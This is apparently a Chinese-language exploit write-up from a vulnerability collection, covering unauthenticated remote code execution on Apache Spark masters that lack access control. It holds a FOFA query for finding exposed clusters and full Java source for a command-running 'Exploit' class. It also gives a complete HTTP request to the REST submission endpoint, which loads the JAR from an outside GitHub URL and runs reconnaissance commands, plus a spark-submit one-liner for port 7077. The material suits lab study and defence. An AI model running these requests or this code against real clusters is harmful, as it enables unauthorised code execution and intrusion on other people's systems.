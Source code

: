 # Apache Spark create 未授权访问漏洞

## 漏洞描述

Apache Spark 是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动 ACL（访问控制），我们将可以在集群中执行任意代码。

参考链接：

- https://weibo.com/ttarticle/p/show?id=2309404187794313453016
- https://xz.aliyun.com/t/2490

## 漏洞影响

```
Apache Spark 3.1.2, 3.2.1, 3.3.0
```

## 网络测绘

```
app="APACHE-Spark-Jobs"
```

## 环境搭建

Vulhub 执行如下命令，将以 standalone 模式启动一个 Apache Spark 集群，集群里有一个 master 与一个 slave：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到 master 的管理页面，访问 `http://your-ip:8081` 即可看到 slave 的管理页面。

## 漏洞利用

该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

1. 利用 REST API
2. 利用 submissions 网关（集成在 7077 端口中）

应用可以是 Java 或 Python，就是一个最简单的类，如（参考链接 1）：

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

将其编译成 JAR，放在任意一个 HTTP 或 FTP 上，如 `https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar`。

### 用 REST API 方式提交应用

standalone 模式下，master 将在 6066 端口启动一个 HTTP 服务器，我们向这个端口提交 REST 格式的 API：

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

其中，`spark.jars` 即是编译好的应用，mainClass 是待运行的类，appArgs 是传给应用的参数。

![img](images/1-16818019181141.png)

返回的包中有 submissionId，然后访问 `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：

![img](images/2-16818019181143.png)

注意，提交应用是在 master 中，查看结果是在具体执行这个应用的 slave 里（默认 8081 端口）。实战中，由于 slave 可能有多个。

### 利用 submissions 网关

如果 6066 端口不能访问，或做了权限控制，我们可以利用 master 的主端口 7077，来提交应用。

方法是利用 Apache Spark 自带的脚本 `bin/spark-submit`：

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

如果你指定的 master 参数是 rest 服务器，这个脚本会先尝试使用 rest api 来提交应用；如果发现不是 rest 服务器，则会降级到使用 submission gateway 来提交应用。

查看结果的方式与前面一致。
